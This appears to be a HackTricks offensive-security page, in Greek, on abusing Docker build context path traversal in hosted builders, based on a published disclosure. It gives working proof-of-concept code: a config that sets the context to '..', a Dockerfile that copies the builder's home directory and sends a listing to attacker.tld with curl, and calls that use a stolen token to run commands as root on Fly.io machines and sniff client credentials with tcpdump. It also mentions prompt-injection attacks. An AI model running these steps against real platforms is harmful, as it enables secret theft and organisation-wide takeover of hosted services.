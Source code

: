 # Κατάχρηση του Docker Build Context σε Hosted Builders (Path Traversal, Exfil, and Cloud Pivot)

{{#include ../banners/hacktricks-training.md}}

## Σύντομη περίληψη

Αν μια πλατφόρμα CI/CD ή ένας hosted builder επιτρέπει στους συνεισφέροντες να καθορίζουν τη διαδρομή του Docker build context και τη διαδρομή του Dockerfile, συχνά μπορείτε να ορίσετε το context σε έναν γονικό κατάλογο (π.χ. "..") και να κάνετε αρχεία του host μέρος του build context. Έπειτα, ένα Dockerfile υπό τον έλεγχο του επιτιθέμενου μπορεί να κάνει COPY και να exfiltrate μυστικά που βρέθηκαν στο home του χρήστη του builder (π.χ. ~/.docker/config.json). Κλεμμένα registry tokens μπορεί επίσης να λειτουργήσουν ενάντια στα control-plane APIs του provider, επιτρέποντας org-wide RCE.

## Επιφάνεια επίθεσης

Πολλές υπηρεσίες hosted builder/registry κάνουν περίπου τα εξής όταν χτίζουν user-submitted images:
- Διαβάζουν ένα repo-level config που περιλαμβάνει:
  - διαδρομή του build context (αποστέλλεται στον Docker daemon)
  - διαδρομή Dockerfile σχετική με αυτό το context
- Αντιγράφουν τον υποδειχθέντα κατάλογο build context και το Dockerfile στον Docker daemon
- Κατασκευάζουν το image και το τρέχουν ως hosted service

Εάν η πλατφόρμα δεν κανονικοποιεί και δεν περιορίζει το build context, ένας χρήστης μπορεί να το ορίσει σε μια τοποθεσία έξω από το repository (path traversal), προκαλώντας αρχεία του host που είναι αναγνώσιμα από τον build χρήστη να γίνουν μέρος του build context και να είναι διαθέσιμα για COPY στο Dockerfile.

Συνήθεις πρακτικοί περιορισμοί που παρατηρούνται:
- Το Dockerfile πρέπει να βρίσκεται εντός της επιλεγμένης διαδρομής context και η διαδρομή του πρέπει να είναι γνωστή εκ των προτέρων.
- Ο build χρήστης πρέπει να έχει δικαιώματα ανάγνωσης στα αρχεία που περιλαμβάνονται στο context· ειδικά αρχεία συσκευών μπορούν να προκαλέσουν αποτυχία στην αντιγραφή.

## PoC: Path traversal via Docker build context

Παράδειγμα κακόβουλης server config που δηλώνει ένα Dockerfile εντός του context του γονικού καταλόγου:
```yaml
runtime: "container"
build:
dockerfile: "test/Dockerfile"   # Must reside inside the final context
dockerBuildPath: ".."           # Path traversal to builder user $HOME
startCommand:
type: "http"
configSchema:
type: "object"
properties:
apiKey:
type: "string"
required: ["apiKey"]
exampleConfig:
apiKey: "sk-example123"
```
Σημειώσεις:
- Η χρήση ".." συχνά επιλύεται στον κατάλογο home του χρήστη builder (π.χ. /home/builder), ο οποίος συνήθως περιέχει ευαίσθητα αρχεία.
- Τοποθετήστε το Dockerfile κάτω από το όνομα καταλόγου του repo (π.χ. repo "test" → test/Dockerfile) ώστε να παραμένει εντός του επεκταμένου γονικού πλαισίου.

## PoC: Dockerfile για την εισαγωγή και exfiltrate του host context
```dockerfile
FROM alpine
RUN apk add --no-cache curl
RUN mkdir /data
COPY . /data                      # Copies entire build context (now builder’s $HOME)
RUN curl -si https://attacker.tld/?d=$(find /data | base64 -w 0)
```
Στόχοι που συνήθως ανακτώνται από το $HOME:
- ~/.docker/config.json (registry auths/tokens)
- Other cloud/CLI caches and configs (e.g., ~/.fly, ~/.kube, ~/.aws, ~/.config/*)

Συμβουλή: Ακόμη και με ένα .dockerignore στο repository, η ευπαθής επιλογή context από την πλευρά της πλατφόρμας εξακολουθεί να καθορίζει τι αποστέλλεται στον daemon. Εάν η πλατφόρμα αντιγράφει το επιλεγμένο path στον daemon πριν αξιολογήσει το .dockerignore του repo σας, αρχεία του host μπορεί να εκτεθούν.

## Pivot στο cloud με overprivileged tokens (παράδειγμα: Fly.io Machines API)

Κάποιες πλατφόρμες εκδίδουν ένα ενιαίο bearer token που είναι χρήσιμο τόσο για το container registry όσο και για το control-plane API. Εάν exfiltrate ένα registry token, δοκιμάστε το στο provider API.

Παραδείγματα κλήσεων API προς το Fly.io Machines API χρησιμοποιώντας το κλεμμένο token από ~/.docker/config.json:

Απαρίθμηση apps σε ένα org:
```bash
curl -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps?org_slug=smithery"
```
Εκτέλεσε μια εντολή ως root μέσα σε οποιαδήποτε μηχανή μιας εφαρμογής:
```bash
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"","command":["id"],"container":"","stdin":"","timeout":5}'
```
Αποτέλεσμα: org-wide remote code execution σε όλες τις φιλοξενούμενες εφαρμογές όπου το token έχει επαρκή προνόμια.

## Κλοπή μυστικών από συμβιβασμένες φιλοξενούμενες υπηρεσίες

Με exec/RCE σε φιλοξενούμενους διακομιστές, μπορείτε να συλλέξετε μυστικά που παρέχονται από τον πελάτη (API keys, tokens) ή να πραγματοποιήσετε prompt-injection attacks. Παράδειγμα: εγκαταστήστε tcpdump και καταγράψτε HTTP traffic on port 8080 για να εξάγετε inbound credentials.
```bash
# Install tcpdump inside the machine
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"apk add tcpdump","command":[],"container":"","stdin":"","timeout":5}'

# Capture traffic
curl -s -X POST -H "Authorization: Bearer fm2_..." \
"https://api.machines.dev/v1/apps/<app>/machines/<machine>/exec" \
--data '{"cmd":"tcpdump -i eth0 -w /tmp/log tcp port 8080","command":[],"container":"","stdin":"","timeout":5}'
```
Τα captured requests συχνά περιέχουν client credentials σε headers, bodies ή query params.

## Αναφορές

- [Breaking MCP Server Hosting: Build-Context Path Traversal to Org-wide RCE and Secret Theft](https://blog.gitguardian.com/breaking-mcp-server-hosting/)
- [Fly.io Machines API](https://fly.io/docs/machines/api/)

{{#include ../banners/hacktricks-training.md}}
